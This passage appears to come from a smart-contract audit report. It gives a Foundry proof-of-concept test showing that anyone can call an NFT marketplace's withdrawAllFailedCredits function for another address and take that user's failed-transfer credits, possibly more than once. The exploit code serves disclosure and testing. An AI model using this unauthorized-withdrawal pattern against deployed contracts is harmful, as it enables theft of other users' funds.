 * Next, add the following test `test_UnauthorizedCreditWithdrawal` in the test file:

    ```solidity
    function test_UnauthorizedCreditWithdrawal() public {
        // Mint and list NFT
        _mintNFT();
        _listNFT();

        // funding some eth to rejector contract
        vm.deal(address(rejector), 10 ether);

        // Placing a initial bid through the rejector contract, which can't receive the ether
        vm.prank(address(rejector));
        market.placeBid{value: BID_AMOUNT}(TOKEN_ID);
        console.log("Rejector places a bid of:", BID_AMOUNT);

        // BIDDER_1 immediately buys the NFT at buy now price, causing payout of rejector to fall in `failedTransferCredits`
        vm.prank(BIDDER_1);
        market.placeBid{value: BUY_NOW_PRICE}(TOKEN_ID);
        console.log("BIDDER_1 buys the NFT at buy now price:", BUY_NOW_PRICE, "leading to payout failure for rejector");
        console.log();

        uint256 failedAmount = market.failedTransferCredits(address(rejector));
        console.log("Rejector's failed transfer credits:", failedAmount);

        uint256 contractBalanceBefore = address(market).balance;
        uint256 bidder2BalanceBefore = address(BIDDER_2).balance;
        console.log();
        console.log("Contract balance before:", contractBalanceBefore);
        console.log("BIDDER_2 balance before:", bidder2BalanceBefore);

        // BIDDER_2 maliciously withdraws rejector’s credits
        vm.prank(BIDDER_2);
        market.withdrawAllFailedCredits(address(rejector));
        console.log();
        console.log("BIDDER_2 maliciously withdraws rejector's credits...");

        console.log();
        console.log("BIDDER_2 balance after:", address(BIDDER_2).balance);
        console.log("Contract balance after:", address(market).balance);
        assertEq(
            market.failedTransferCredits(address(rejector)),
            failedAmount,
            "Rejector's credits should remain unchanged"
        );

        // Gives the opportunity to withdraw again and again if contract has enough balance and `failedTransferCredits` of some address is non-zero
    } 
    ```

* Run the above test using the command:

    ```bash
    forge test --mt test_UnauthorizedCreditWithdrawal -vv
    ```
